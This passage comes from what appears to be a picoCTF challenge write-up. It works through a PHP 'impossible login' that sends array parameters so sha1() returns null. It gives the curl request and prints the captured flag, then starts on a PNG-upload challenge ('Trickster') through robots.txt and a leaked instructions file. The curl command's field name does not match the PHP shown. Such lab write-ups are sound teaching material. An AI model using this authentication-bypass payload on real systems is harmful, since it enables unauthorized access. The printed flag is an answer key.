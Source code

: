 We found some obfuscated PHP source code in it.

<pre>
<?php
if (isset($_POST["user"]) && isset($_POST["pwd"])) {
    $user = $_POST["user"];
    $pwd = $_POST["pwd"];

    if ($user == $pwd) {
        echo "<br/>Faild! No flag today";
    } else {
        if (sha1($user) === sha1($pwd)) {
            echo file_get_contents("../flag.txt");
        } else {
            echo "<br/>Failed: No Flag today";
        }
    }
}
?>
</pre>

We need: `sha1($user) === sha1($pwd)`  
But NOT: `$user == $pwd`

In PHP, if we send an **array** to `sha1()`, it returns **null**.  
`sha1(array)` → **returns** `null`

But, `array == array` is false since they are not equal strings

We can do it with a simple `curl` command in the terminal:

> curl -X POST [http://verbal-sleep.picoctf.net:63131/impossibleLogin.php](http://verbal-sleep.picoctf.net:63131/impossibleLogin.php) \\  
> \-H “Content-Type: application/x-www-form-urlencoded” \\  
> -- data “username\[\]=a&pwd\[\]=b”

This gives the flag:

> picoCTF{w3Ll\_d3sErV3d\_Ch4mp\_76d46a4d}

**6\. Trickster**
----

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*Owao7RY1l21dTMdJNnyFVQ.png)

I found a website that lets users upload PNG files. There’s an upload page for PNG images.

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*AvfpfR0WMo6SGBWukUpJWQ.png)

I went straight to /robots.txt and found a file: `/instructions.txt`

![](https://miro.medium.com/v2/resize:fit:456/format:webp/1*CcSv6SGFDjQVA7XuXDGk5Q.png)

/instructions.txt:
<pre>
Let's create a web app for PNG Images processing.  
It needs to:  
Allow users to upload PNG images  
	look for ".png" extension in the submitted files  
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )  
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
</pre>
